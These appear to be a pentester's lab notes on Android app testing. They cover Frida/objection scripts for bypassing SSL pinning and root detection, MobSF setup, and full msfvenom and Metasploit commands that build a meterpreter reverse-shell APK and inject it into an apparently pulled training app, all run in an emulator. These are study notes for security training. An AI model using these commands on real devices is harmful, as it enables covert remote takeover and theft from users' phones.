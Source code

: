 ### Use Frida CodeShare and Enable Scripts on Startup With Objection
- References:
	- [[https://codeshare.frida.re/]]
	- [[https://academy.tcm-sec.com/courses/1557555/lectures/38201184]]
- Syntax:
	- `objection explore --startup-script sslpinninguniversal.js`
- Start App then run the above right after
- Alternatively:
	- `objection explore -s "android root disable"`

### MOBSF Relevant
- Start emulator:
	- `nexus -writable-system -no-snapshot`
- Start MOBSF:
	- Travel to directory
		- `./run.sh`
	- Go to `127.0.0.1:8000`

### Create a Generic APK with Metasploit Shell

- `msfvenom -p android/meterpreter/reverse_tcp LHOST=172.25.7.124 LPORT=8088 R > android_shell.apk`
- `keytool -genkey -v -keystore demo.keystore -alias demokeys -keyalg RSA -keysize 2048 -validity 10000`
- `jarsigner -sigalg SHA1withRSA -digestalg SHA1 -keystore demo.keystore -storepass password123 android_shell.apk demokeys`
- `zipalign 4 android_shell.apk android.apk`
- Run:
	- `msfconsole`
		- `use exploit/multi/handler`
		- `set PAYLOAD android/meterpreter/reverse_tcp`
		- `set lhost 172.25.7.124`
		- `set lport 8088`
		- `exploit`
- In terminal:
	- `start_emulator; nexus`
- Drag and drop `android.apk` into emulator
- Open the application in emulator and accept permissions

### Injecting Play Store App with Metasploit Shell
- Refer too:
	- [[Installing and Retrieving APK File from Emulator-Phone]]
- Ensure the pulled *apk* is in the current working directory
	- `msfvenom -x injuredAndroid_pulled.apk -p android/meterpreter/reverse_tcp LHOST=172.25.7.124 LPORT=8088 R > android_shell.apk`
- Install onto emulator
	- `adb install android_shell.apk`
- Run:
	- `msfconsole`
		- `use exploit/multi/handler`
		- `set PAYLOAD android/meterpreter/reverse_tcp`
		- `set lhost 172.25.7.124`
		- `set lport 8088`
		- `exploit`
- In terminal:
	- `start_emulator; nexus`
- Drag and drop `android.apk` into emulator
- Open the application in emulator and accept permissions
- Meterpreter android commands:
	- [[https://gist.github.com/mataprasad/c5dd39154a852cdc67ff7958e0a82699]]
